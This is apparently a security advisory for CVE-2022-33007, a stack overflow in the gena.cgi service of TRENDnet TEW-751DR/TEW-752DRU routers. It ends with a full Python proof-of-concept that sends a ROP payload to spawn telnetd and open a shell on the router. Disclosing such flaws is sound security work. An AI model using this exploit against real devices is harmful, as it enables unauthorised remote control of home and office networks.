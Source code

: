 Vendor of the products:TRENDnet

Reported by: 　　　WangJincheng && FeiXincheng from X1cT34m

Affected products: TRENDnet TEW751DR <= v1.03 , TRENDnet TEW-752DRU <= v1.03

Vendor Homepage:  https://www.trendnet.com/

Vendor Advisory:  https://www.trendnet.com/support/support-detail.asp?prod=165_TEW-751DR , 
                  https://www.trendnet.com/support/support-detail.asp?prod=170_TEW-752DRU

CVE_ID:[CVE-2022-33007](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-33007)

# summarize

The LAN-side Web-Configuration Interface has Stack-based Buffer Overflow vulnerability in the `TrendNet` Wi-Fi router firmware `TEW751DR` `TEW-752DRU` . In the `genacgi_main` function of the `cgibin` program, the `sprintf` method directly uses the service parameter from `/gena.cgi`. The attackers can construct a payload to carry out arbitrary code attacks.

# vulnerability description

There is a `stack overflow` vulnerability in the `genacgi_main` function.

![image-20220316191407126](https://github.com/fxc233/CVE/blob/main/img/1.png)

It calls the `sub_40EC1C` function.

![image-20220316191407126](https://github.com/fxc233/CVE/blob/main/img/2.png)

However, in the `sub_40EC1C` function, it calls the `sprintf` function from `a1` to `v23` without any security check, which causes the stack overflow.

![image-20220316191407126](https://github.com/fxc233/CVE/blob/main/img/3.png)


# poc

	# python3
	from pwn import *
	from socket import *
	from os import *
	from time import *
	context(os = 'linux', arch = 'mips')
	
	libc_base = 0x2aaf8000
	
	s = socket(AF_INET, SOCK_STREAM)
	
	cmd = b'telnetd -p 7777;'
	payload = b'a'*462
	payload += p32(libc_base + 0x53200 - 1) # s0  system_addr - 1
	payload += p32(libc_base + 0x169C4) # s1  addiu $s2, $sp, 0x18 (=> jalr $s0)
	payload += b'a'*4 # s2
	payload += p32(libc_base + 0x32A98) # ra  addiu $s0, 1 (=> jalr $s1)
	payload += b'a'*0x18 # padding
	payload += cmd
	
	msg = b"UNSUBSCRIBE /gena.cgi?service=" + payload + b" HTTP/1.1\r\n"
	msg += b"Host: localhost:49152\r\n"
	msg += b"SID: 1\r\n\r\n"
	
	s.connect((gethostbyname("192.168.10.1"), 49152))
	s.send(msg)
		
	sleep(1)
	system("telnet 192.168.10.1 7777")


![image-20220316191407126](https://github.com/fxc233/CVE/blob/main/img/shell.png?raw=true)
